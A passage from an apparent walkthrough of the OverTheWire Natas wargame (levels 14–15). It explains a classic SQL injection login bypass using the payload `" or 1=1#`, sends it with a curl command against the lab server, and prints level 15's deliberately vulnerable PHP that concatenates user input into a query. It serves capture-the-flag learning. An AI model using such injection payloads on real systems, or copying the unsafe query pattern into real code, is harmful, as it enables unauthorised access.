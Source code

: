 ```php
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?>
```

This level is a basic SQL injection. All we need to do is insert a statement that completes this query:

```sql
SELECT * from users where username="<username_input>" and password="<password_input>"
```

As long as this query returns at least 1 row, the login will be successful. We also see that the database is using `mysql`. We can do a vanilla SQLi with `" or 1=1#` in the `username` parameter. In `mysql`, the `#` acts as a comment and ignores the rest of the query, which essentially turns our query into this:

```sql
SELECT * from users where username="" or 1=1
```

Now to send our SQLi:

```bash
curl -s "http://natas14:$natas14_pass@natas14.natas.labs.overthewire.org/index.php" --data-urlencode 'username=" or 1=1#' | sed "s/$natas14_pass//g" | egrep -o [[:alnum:]]{32}
```

[*Back to top*](#overthewire---natas)

## Level 15

![natas15_index.jpg](screenshots/natas/natas15_index.jpg)

[Sourcecode](http://natas15.natas.labs.overthewire.org/index-source.html):

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
```